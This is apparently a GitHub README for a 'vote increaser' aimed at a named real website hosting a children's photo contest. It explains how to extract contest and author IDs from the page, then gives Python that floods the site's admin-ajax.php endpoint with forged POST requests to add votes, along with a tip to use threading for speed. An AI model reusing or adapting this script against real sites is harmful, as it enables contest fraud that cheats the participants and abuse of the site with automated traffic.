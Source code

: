 # vote_increaser_on_a_site

this site is a spam site which get trafic by a some child photos compitition
so i hack its database api - because it have some loopholes 
1: **it provides a ajax code in html file**
```bash
var data = {
 'action': 'vote_form_data',
 'contestid': contestid,
 'authorid': authorid,
  'name': name
}
jQuery.ajax({
  url:"https://little1.in/wp-admin/admin-ajax.php",
	type: 'POST',
	data: data}
```
**next**
just to figure out the **contestid,authorid,name** values to send post request 

it turns out that **name = ''** blank here and

**contestid** is in the end of the url itself 

so just to get **authorid** 
which is provided in html tag

<img src="https://github.com/rishabhjainfinal/vote_increaser_on_a_site/blob/master/Screenshot%20(68).png" >

SO FOR EACH VOTE YOU HAVE TO ADD +1 IN YOUR **authorid**  ALTHOUGH IT ALSO ADD A VOTE WHEN REQUESTED FROM SAME **authorid   ¯\\_(ツ)_/¯ **
**next**
and then i make a simple script to fetch current votes 
```bash
def votes(url):
	source = urllib.request.urlopen(url).read()
	soup = bs.BeautifulSoup(source,features="html.parser")
	for i in soup.select('div.blog-item'):
		votes=i.p.strong.text
	return votes

```

you can also use **threading** to get things faster and more excited jsut un-comment all the threading lines code and comment the the increaser call funtion you will see it when you see the file
i don't have the power and internet speed to do but i tested it wooks fine 

```bash
def increaser(n):
	database_url = "https://little1.in/wp-admin/admin-ajax.php"
	contestid=url.split('/')[-2].split('-')[-1]

	payload = f'action=vote_form_data&contestid={contestid}&authorid={n}&name='
	headers = {
	  'Content-Type': 'application/x-www-form-urlencoded',
	  'Cookie': 'sitename_newvisitor=1; voteStatus-4233=4233'
	}

	response = requests.request("POST", database_url, headers=headers, data = payload)
```

this funtion will send request to the databasse of site and take **contestid** as arg 

thats all
we spam the spamer


